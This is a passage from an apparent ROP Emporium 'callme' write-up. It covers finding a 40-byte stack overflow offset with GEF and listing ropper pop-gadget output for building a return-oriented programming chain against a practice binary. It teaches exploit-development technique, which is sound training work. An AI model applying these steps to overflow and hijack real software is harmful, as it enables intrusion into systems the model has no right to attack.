 ![GDB-GEF RSP Overwritten](/assets/images/ROP_Emporium/callme/finding_the_offset_64-bit.png)

From the output, I saw that the `RSP` register pointed to a strings starting with `faaaaaaagaaaaaaa`. The `pattern offset faaaaaaagaaaaaaa` command calculated that the offset is **40** bytes.

### Step 3: Locating the Gadgets
When calling a function and passing arguments to it in `x86-64` binaries, the arguments are passed via the `RDI`, `RSI` and `RDX` registers. Therefore, I had to locate a gadget that would pop those three registers allowing me to put the required arguments into them.

I again used `ropper` for this.

```
$ ropper -f ./callme --search "pop"

[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop

[INFO] File: ./callme
0x000000000040099c: pop r12; pop r13; pop r14; pop r15; ret; 
0x000000000040099e: pop r13; pop r14; pop r15; ret; 
0x00000000004009a0: pop r14; pop r15; ret; 
0x00000000004009a2: pop r15; ret; 
0x00000000004007bb: pop rbp; mov edi, 0x601070; jmp rax; 
0x000000000040099b: pop rbp; pop r12; pop r13; pop r14; pop r15; ret; 
0x000000000040099f: pop rbp; pop r14; pop r15; ret; 
0x00000000004007c8: pop rbp; ret; 
0x000000000040093c: pop rdi; pop rsi; pop rdx; ret; 
0x00000000004009a3: pop rdi; ret; 
0x000000000040093e: pop rdx; ret; 
0x00000000004009a1: pop rsi; pop r15; ret; 
0x000000000040093d: pop rsi; pop rdx; ret; 
0x000000000040099d: pop rsp; pop r13; pop r14; pop r15; ret;
```
